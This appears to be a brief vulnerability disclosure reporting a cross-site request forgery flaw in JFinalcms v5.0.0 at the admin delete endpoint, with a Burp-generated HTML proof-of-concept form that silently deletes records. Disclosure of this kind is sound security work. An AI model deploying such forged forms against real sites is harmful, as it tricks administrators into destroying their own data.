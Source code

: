 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/div/delete


![图片](https://github.com/cui2shark/cms/assets/52313275/b25a3bd8-c721-4069-b892-4483b291be37)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/bada991c-d145-46e5-b51f-aa8f25d7dc42)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/div/delete" method="POST">
      <input type="hidden" name="ids" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/2653d1f9-b149-4057-90ef-e83f726b1043)
